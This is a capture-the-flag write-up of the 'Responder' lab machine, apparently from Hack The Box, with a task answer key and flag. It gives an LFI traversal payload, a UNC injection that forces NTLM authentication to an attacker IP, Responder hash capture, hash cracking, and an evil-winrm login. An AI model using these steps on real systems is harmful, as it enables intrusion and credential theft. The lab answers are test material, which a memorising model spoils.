


# Responder

## Overview

This write-up documents the complete attack chain used to compromise the **Responder** Windows machine. The methodology follows a structured progression: web enumeration, LFI exploitation, NTLM capture via SMB, password cracking, and remote access through WinRM.

---

## Answers Summary

- **Task 1** : Redirected domain → `unika.htb`
- **Task 2** : Server-side language → `php`
- **Task 3** : Vulnerable parameter → `page`
- **Task 4** : LFI payload → `../../../../../../../../windows/system32/drivers/etc/hosts`
- **Task 5** : RFI payload → `//10.10.14.6/somefile`
- **Task 6** : NTLM stands for → `New Technology LAN Manager`
- **Task 7** : Responder interface flag → `-I`
- **Task 8** : Password cracking tool → `John The Ripper`
- **Task 9** : Administrator password → `badminton`
- **Task 10** : WinRM port → `5985`
- **User Flag** : `ea81b7afddd03efaa0945333ed147fac`

---

## 1. Initial Web Enumeration

Accessing the target IP redirected to:

```
unika.htb
```

The website was powered by **PHP**, and a URL parameter named `page` was responsible for loading different language versions.

Example:

```
http://unika.htb/index.php?page=french.html
```

---

## 2. Local File Inclusion (LFI)

Testing traversal sequences confirmed a Local File Inclusion vulnerability.

Successful payload:

```
../../../../../../../../windows/system32/drivers/etc/hosts
```

This confirmed the backend server was running Windows.

---

## 3. Forcing NTLM Authentication via RFI

To capture NTLM credentials, a UNC path was injected into the `page` parameter to force Windows authentication to our attacker machine.

Example:

```
http://unika.htb/index.php?page=\\10.10.14.58\share
```

On the attacker machine (Pwnbox), Responder was started:

```bash
sudo responder -I tun0
```

The victim attempted SMB authentication, and Responder captured a NetNTLMv2 hash:

```
Administrator::RESPONDER:0722d51aaaf6ee7a:...
```



---

## 4. Cracking NetNTLMv2 Hash

The captured hash was saved into a file:

```bash
nano hash.txt
```

John The Ripper was used with explicit format specification:

```bash
john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Recovered password:

```
badminton
```



---

## 5. Remote Access via WinRM

The Windows machine exposed **WinRM** on TCP port:

```
5985
```

Connection was established using Evil-WinRM:

```bash
evil-winrm -i 10.129.1.194 -u Administrator -p badminton
```

Successful authentication returned a PowerShell session.

Verification:

```powershell
whoami
```

Output:

```
responder\administrator
```

---

## 6. Flag Retrieval

Enumerating user directories:

```powershell
cd ../..
ls
```


Navigating to Mike's desktop:

```powershell
cd mike
ls
cd Desktop
ls
```

Flag discovered:

```powershell
cat flag.txt
```

User flag:

```
ea81b7afddd03efaa0945333ed147fac
```


---

## Key Takeaways

- LFI vulnerabilities can be escalated into credential capture attacks.
- Windows UNC paths can force NTLM authentication.
- NetNTLMv2 hashes can be cracked offline.
- WinRM is commonly exposed on port 5985 and allows credential-based remote access.
- Structured enumeration prevents guesswork and ensures controlled exploitation.

---

## Conclusion

The Responder machine was compromised through a logical exploitation chain:

1. Identifying LFI in a PHP application.
2. Leveraging UNC paths to trigger SMB authentication.
3. Capturing NetNTLMv2 hashes using Responder.
4. Cracking the hash with John The Ripper.
5. Accessing the system via WinRM.
6. Retrieving the user flag from the compromised host.

This lab demonstrates how web vulnerabilities can directly lead to full Windows compromise through authentication abuse and protocol interaction.
